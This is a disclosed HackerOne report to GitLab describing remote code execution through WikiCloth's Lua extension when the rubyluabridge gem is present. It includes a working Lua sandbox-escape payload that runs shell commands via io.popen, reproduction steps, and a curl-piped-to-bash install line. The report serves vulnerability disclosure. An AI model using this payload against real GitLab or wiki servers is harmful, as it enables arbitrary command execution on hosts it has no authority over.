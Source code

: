 # RCE via WikiCloth markdown rendering if the `rubyluabridge` gem is installed

## Report Details
- **Report ID**: 1401444
- **URL**: https://hackerone.com/reports/1401444
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2021-11-16T11:32:27.651Z
- **Disclosed**: 2022-04-12T10:10:28.476Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

One of the supported wiki formats is `mediawiki` which is rendered by `WikiCloth` via GitLab Markup:

https://gitlab.com/gitlab-org/gitlab-markup/-/blob/v1.7.1/lib/github/markups.rb#L24-28
```ruby
markup(:wikicloth, /mediawiki|wiki/) do |content|
  wikicloth = WikiCloth::WikiCloth.new(:data => content)
  WikiCloth::WikiBuffer::HTMLElement::ESCAPED_TAGS << 'tt'
  wikicloth.to_html(:noedit => true)
end
```

One of the extensions that `WikiCloth` has is for lua (eg [lua.wiki](https://github.com/nricciar/wikicloth/blob/v0.8.1/sample_documents/lua.wiki)), which allows lua code to be run and the results rendered inside of the page by using either `{{#luaexpr:lua expression}}` or `<lua>lua code here</lua>`. This extension is enabled if the `rubyluabridge` gem can be required:

https://github.com/nricciar/wikicloth/blob/v0.8.1/lib/wikicloth/extensions/lua.rb#L1-L6
```ruby
begin
  require 'rubyluabridge'
  DISABLE_LUA = false
rescue LoadError
  DISABLE_LUA = true
end
```

The lua code is meant to be executed in a sandbox, but looking at the [lua wiki on sandboxing](http://lua-users.org/wiki/SandBoxes#:~:text=loadstring%20--%20UNSAFE.%20See%20load.%20Even%20this%3A) one of the things mentioned is:

> loadstring -- UNSAFE. See load. Even this isn't safe. For example, `pcall(safeloadstring, some_script)` will load some_script in global environment. --SergeyRozhenko

```lua
local oldloadstring = loadstring
local function safeloadstring(s, chunkname)
  local f, message = oldloadstring(s, chunkname)
  if not f then
    return f, message
  end
  setfenv(f, getfenv(2))
  return f
end
```

This is the exact code that `WikiCloth` is using in their wrapper https://github.com/nricciar/wikicloth/blob/master/lib/wikicloth/extensions/lua/luawrapper.lua#L83-L92, so the provided bypass can be used to execute arbitrary lua:

```
<lua>
_,execute = pcall(loadstring,
    [[
        local command = ...;
        local handle = io.popen(command)
        local result = handle:read("*a")
        handle:close()
        return result;
    ]]
);

print(execute('id'));
execute('echo vakzz > /tmp/ggg');
</lua>
```

Luckily it's pretty unlikely that the `rubyluabridge` gem will be installed. There is a current ubuntu package https://packages.ubuntu.com/bionic/ruby/ruby-luabridge that can just be installed with apt, or a rubygem version at https://rubygems.org/gems/Tamar. Potentially another gem could start depending on it, or if gitlab is [installed from source](https://docs.gitlab.com/ee/install/installation.html) and the ruby environment is shared, the apt version could be present.

### Steps to reproduce

1. Install the `rubyluabridge` gem
  * If using the omnibus edition then you will need to do something like the following to get it in the correct spot:
```
curl -sSL https://get.rvm.io | bash
source /etc/profile.d/rvm.sh
rvm install 2.7.4

git clone https://github.com/neomantra/rubyluabridge
sudo apt install liblua5.1-0-dev libboost-dev
./build/extconf_ubuntu.sh
make

sudo cp rubyluabridge.so /opt/gitlab/embedded/lib/ruby/2.7.0/rubyluabridge.so
```
2. Create a new project and add a wiki page
3. Clone the wiki (clone url should end in `.wiki.git`)
4. Create a file `hello.wiki` with the following contents:
```
<lua>
_,execute = pcall(loadstring,
    [[
        local command = ...;
        local handle = io.popen(command)
        local result = handle:read("*a")
        handle:close()
        return result;
    ]]
);

print(execute('id'));
execute('echo vakzz > /tmp/ggg');
</lua>
```
5. Add, commit and push the file
6. Visit the new wiki page on gitlab, you should see the output of the `id` command
7. See that the file `/tmp/ggg` has been created

{F1515535}

### Impact
If the `rubyluabridge` gem has been manually installed, or if another gem starts depending on it, a user with the ability to add wiki pages can run arbitrary commands on the gitlab server 

### What is the current *bug* behavior?
The lua sandbox can be escaped using code from the official wiki.

### What is the expected *correct* behavior?
Probably all of the WikiCloth extensions should be disabled unless explicitly enabled, I cant really see a need for executing lua when rendering a wiki page.

### Output of checks
#### Results of GitLab environment info

## Impact

If the `rubyluabridge` gem has been manually installed, or if another gem starts depending on it, a user with the ability to add wiki pages can run arbitrary commands on the gitlab server

## Attachments
- wiki.png
